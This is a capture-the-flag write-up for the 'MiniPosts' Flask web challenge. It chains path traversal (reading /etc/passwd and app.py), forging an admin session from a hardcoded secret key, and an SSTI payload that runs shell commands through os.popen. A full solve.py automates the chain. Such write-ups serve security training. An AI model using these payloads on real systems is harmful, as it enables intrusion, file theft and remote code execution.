


# MiniPosts - Web Challenge

**Category:** Web
**CTF:** HackOn CTF
**Flag:** ` HackOn{00o0ps_h4rdc0ded_s3cret__pd:im_s0_t1red}`
**Difficulty:** Medium

---

## Initial Analysis



### Stack

- Flask (Python), ReportLab (PDFs)
- Endpoints: `/`, `/login`, `/register`, `/dashboard`, `/download`, `/certificate`

### Reconnaissance

```bash
# App structure
GET  /                  # Landing page
GET  /login             # Login form
POST /register          # Registration
GET  /dashboard         # User panel
POST /download          # Post download (vulnerable)
POST /certificate       # Certificate generation (SSTI)
```

---

## Vulnerability Chain

**Path Traversal → Source Code Leak → Hardcoded Secret Key → Flask Session Forge → SSTI → RCE**

### 1. Path Traversal in `/download`

The `/download` endpoint accepts a `filename` parameter without sanitization:

```python
@app.route("/download", methods=["POST"])
def download_posts():
    filename = data["filename"]
    if not os.path.exists(filename):
        abort(404)
    return send_file(filename, ...)
```

```bash
curl -X POST https://hackon-mini-posts.chals.io/download \
  -H "Content-Type: application/json" \
  -d '{"filename":"../../../etc/passwd"}'
# Returns /etc/passwd
```

### 2. Source Code Leak

We read the app's source code via path traversal:

```bash
curl -X POST /download -H "Content-Type: application/json" \
  -d '{"filename":"../../../app/app.py"}'
```

Critical findings in `app.py`:
- `app.secret_key = "hardcoded key, so unprofessional"`: hardcoded secret key
- Hidden `/certificate` endpoint with `render_template_string()`: SSTI
- `role == "admin"` check in the session

### 3. Flask Session Forge

With the hardcoded secret key, we forge an admin session:

```bash
flask-unsign --sign \
  --cookie '{"user_id": 1, "username": "admin", "role": "admin"}' \
  --secret 'hardcoded key, so unprofessional'
```

### 4. SSTI via `/certificate`

The `name` parameter is injected directly into `render_template_string()`:

```python
template = f"""
Certificate of Achievement
This certifies that:
{name}
...
"""
rendered_text = render_template_string(template)
```

RCE payload:

```
{{lipsum.__globals__["os"].popen("cat /app/f83cd6f00a8688c23d359187a5b94103_flag.txt").read()}}
```

The result is embedded in a PDF via ReportLab. Extract with `pdfplumber`.

---

## Exploit (`solve.py`)

```python
#!/usr/bin/env python3
"""
MiniPosts - HackOn CTF
Chain: Path Traversal → Source Leak → Secret Key → Session Forge → SSTI → RCE
"""
import requests
import subprocess
import tempfile
import os

URL = "https://hackon-mini-posts.chals.io"

# Step 1: Register + Login
s = requests.Session()
s.post(f"{URL}/register", data={
    "username": "solver_auto", "email": "solver@x.com", "password": "pass123"
})
s.post(f"{URL}/login", data={"username": "solver_auto", "password": "pass123"})

# Step 2: Path traversal → leak app.py
resp = s.post(f"{URL}/download", json={"filename": "../../../app/app.py"})
print("[*] Leaked app.py via path traversal")
print("[*] Secret key: 'hardcoded key, so unprofessional'")

# Step 3: Forge admin session
forged = subprocess.check_output([
    "flask-unsign", "--sign",
    "--cookie", '{"user_id": 1, "username": "admin", "role": "admin"}',
    "--secret", "hardcoded key, so unprofessional"
]).decode().strip()
print(f"[*] Forged admin cookie: {forged}")

# Step 4: SSTI → RCE via /certificate
s2 = requests.Session()
s2.cookies.set("session", forged)

# List /app/ to find flag filename
payload_find = '{{lipsum.__globals__["os"].popen("ls /app/").read()}}'
s2.post(f"{URL}/certificate", data={"name": payload_find, "reason": "test"})

# Read flag
payload_flag = '{{lipsum.__globals__["os"].popen("cat /app/f83cd6f00a8688c23d359187a5b94103_flag.txt").read()}}'
resp = s2.post(f"{URL}/certificate", data={"name": payload_flag, "reason": "test"})

# Extract text from PDF response
with tempfile.NamedTemporaryFile(suffix=".pdf", delete=False) as f:
    f.write(resp.content)
    tmp = f.name

import pdfplumber
with pdfplumber.open(tmp) as pdf:
    text = pdf.pages[0].extract_text()
    for line in text.split("\n"):
        if "HackOn{" in line:
            print(f"\n[+] FLAG: {line.strip()}")
            break

os.unlink(tmp)
```



---

## Key Lessons

1. **Path Traversal** in download endpoints: always check for `../` traversal in filename parameters
2. **Hardcoded secrets**: a hardcoded `app.secret_key` allows forging complete Flask sessions
3. **`render_template_string()`** with user input = guaranteed SSTI
4. **Hidden endpoints**: challenge hints ("useless features") point to hidden functionality
5. **PDF extraction**: when SSTI returns a PDF, use `pdfplumber` to extract the text
